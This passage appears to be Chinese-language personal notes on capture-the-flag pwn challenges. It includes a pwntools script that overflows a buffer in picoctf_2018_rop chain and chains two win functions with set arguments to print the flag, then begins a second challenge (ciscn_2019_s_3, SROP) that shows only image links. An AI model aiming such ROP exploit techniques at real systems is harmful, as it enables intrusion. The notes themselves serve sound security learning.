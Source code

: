 


### 5    picoctf_2018_rop chain

### 考点：修改多个变量值来通过条件限制打印flag

![[Pasted image 20240911211924.png]]

![[Pasted image 20240911211856.png]]

![[Pasted image 20240911211909.png]]

![[Pasted image 20240911211827.png]]

收获：知道了在调用函数时，函数如果有几个参数就要传入几个参数，就像system一样要传入一函数，返回地址可以写在函数和参数之间。

wp

```
from pwn import *

r = remote("node3.buuoj.cn", 26602)

win_function1 = 0x080485CB
win_function2 = 0x080485D8
flag = 0x0804862B

payload = "a" * 0x1c
payload += p32(win_function1)
payload += p32(win_function2) + p32(flag) + p32(0xBAAAAAAD) + p32(0xDEADBAAD)
#是32位的，所以是函数1+函数2+参数1+参数2
r.sendlineafter("input> ", payload)

r.interactive()

```



### 6    ciscn_2019_s_3

### 考点：打的是srop或ret2csu,挺好的一题，用ret2libc打不了


做法一：srop
#------------------------------------------------------------------------------------------------------------------------
![[Pasted image 20240916145942.png]]

![[Pasted image 20240916150014.png]]


![[Pasted image 20240916150034.png]]
